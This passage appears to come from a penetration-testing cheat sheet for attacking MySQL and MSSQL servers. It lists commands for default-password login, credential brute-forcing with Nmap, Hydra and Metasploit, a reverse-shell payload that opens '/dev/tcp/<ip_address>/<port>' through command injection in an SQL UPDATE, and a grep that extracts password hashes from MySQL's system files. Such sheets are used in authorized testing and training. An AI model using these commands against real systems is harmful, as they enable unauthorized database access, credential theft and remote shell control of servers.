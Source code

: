 
> enter default or guessable password
```bash
mysql -u root -p
```

### Brute Force

> Nmap
```bash
nmap -p 3306 --script mysql-brute X.X.X.X

nmap IP -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

> Hydra
```bash
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] mysql://X.X.X.X
```

> Metasploit
```bash
use auxiliary/scanner/mysql/mysql_login
```

### Reverse Shell Through SQL Command Injection
```bash
mysql> UPDATE hackviserdb.users SET email='hackviser@shell|| bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1" &' WHERE name LIKE 'user%';
```

### MySQL Credentials from System Files
```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```